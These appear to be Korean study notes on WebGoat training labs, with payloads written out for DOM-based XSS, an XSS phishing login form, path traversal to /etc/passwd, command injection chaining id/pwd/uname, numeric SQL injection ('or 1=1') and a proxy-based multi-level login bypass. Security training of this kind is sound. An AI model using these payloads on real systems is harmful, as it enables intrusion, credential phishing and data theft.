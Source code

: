 학원: (192.168.56.131)
![[Pasted image 20241022093053.png]]
1) # Using an Access Control Matrix
2) # Bypass a Path Based Access Control Scheme
4) # LAB: DOM-Based cross-site scripting
   - ![[Pasted image 20241022101502.png]]
   - \<img src=/WebGoat/images/logos/owasp.jpg>
   - 스크립트 내용을 받아오는 방법 ![[Pasted image 20241022102353.png]]
   - `<img src=x onerror='document.body.innerHTML="<img src=/WebGoat/images/logos/owasp.jpg>"'>`
     ![[Pasted image 20241022102623.png]]
5) # Multi Level Login 2
   - 2차 인증 이상의 인증이 있는 것을 의미![[Pasted image 20241022103218.png]]
   - 2차 인증을 완료하면 신용카드 정보를 확인할 수 있다.![[Pasted image 20241022103324.png]]
   - Tan 코드를 입력해 로그인을 시도할 때 Proxy를 통해 hidden user을 목표로 하는 Jane으로 바꿔서 요청하면 성공![[Pasted image 20241022103935.png]]
6) # Discover Clues in the HTML
   - 웹 소스코드를 확인하면 발견할 수 있음![[Pasted image 20241022104837.png]]
     ![[Pasted image 20241022104946.png]]
7) # Phishing with XSS
   - ![[Pasted image 20241022110334.png]]
   - `<iframe frameborder=0 width=400 height=200 src="내가 만든 피싱 주소"></iframe>`
     `<iframe frameborder=0 width=400 height=200 src=http://192.168.56.102/>`
```html
User Authentication
<p>
<form id=id action=/ method=GET>
	Username<br>
	<input type=text name=id><br>
	Password<br>
	<input type=password name=pw><br>
	<input type=submit value=Login onclick="document.getElementById('id').submit()">
</form>
```
8) # Command Injection
   ![[Pasted image 20241022112010.png]]
   HelpFile 대신에 `../../../../../../../../../etc/passwd`를 추가![[Pasted image 20241022112209.png]]
   ![[Pasted image 20241022112424.png]]
   `CSRF.help&id&pwd&uname` 형식으로 바꿔도 명령어를 다중으로 실행하여 원하는 결과를 만들 수도 있다.(이때 URL encoding 필요)
   `CSRF.help%22%26id%26pwd%26uname%22`![[Pasted image 20241022113442.png]]
9) # Numeric SQL Injection
   프록시로 잡아서 sql injection 시도![[Pasted image 20241022113920.png]]
   `102%20or%201=1`![[Pasted image 20241022115048.png]]
   이때 특수문자(띄어쓰기)는 %20(아스키코드)으로 encoding
10) String SQL Injection
![[Pasted image 20241022093320.png]]
https://github.com/WebGoat/WebGoat/wiki/Main-Exploits